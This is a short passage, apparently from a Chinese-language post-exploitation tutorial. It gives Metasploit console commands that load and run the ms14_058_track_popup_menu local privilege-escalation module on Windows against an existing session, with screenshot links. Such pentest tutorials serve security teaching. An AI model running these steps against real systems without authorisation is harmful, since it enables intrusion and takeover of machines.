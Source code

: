    ![利用提权漏洞进行提权_1](./后渗透/利用提权漏洞进行提权_1.png)

2. 配置相应信息，并运行模块

   ```
   // 启动Exploit/windows/local/ms14_058_track_popup_menu模块
   # msf6 > use exploit/windows/local/ms14_058_track_popup_menu
   // 配置相关信息，并运行模块
   # msf6 exploit(windows/local/ms14_058_track_popup_menu) > set session 1
   # msf6 exploit(windows/local/ms14_058_track_popup_menu) > set target 1
   # msf6 exploit(windows/local/ms14_058_track_popup_menu) > exploit
   ```

   ![利用提权漏洞进行提权_2](./后渗透/利用提权漏洞进行提权_2.png)
